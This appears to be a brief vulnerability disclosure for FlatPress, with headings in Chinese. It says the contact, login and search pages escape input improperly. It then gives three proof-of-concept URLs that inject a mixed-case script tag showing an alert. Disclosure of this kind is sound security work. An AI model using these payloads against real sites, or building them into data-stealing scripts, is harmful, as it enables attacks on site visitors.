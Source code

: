 # FlatPress Cross Site Scripting Vulnerability
---
#### 1. 漏洞成因

在contact.php、login.php、search.php页面中对输入的转义处理不恰当

#### 2.漏洞验证

```
http://server/flatpress/contact.php/>"><ScRiPt>alert(test)</ScRiPt>
```
```
http://server/flatpress/login.php/>"><ScRiPt>alert(test)</ScRiPt>
```
```
http://server/flatpress/search.php/>"><ScRiPt>alert(test)</ScRiPt>
```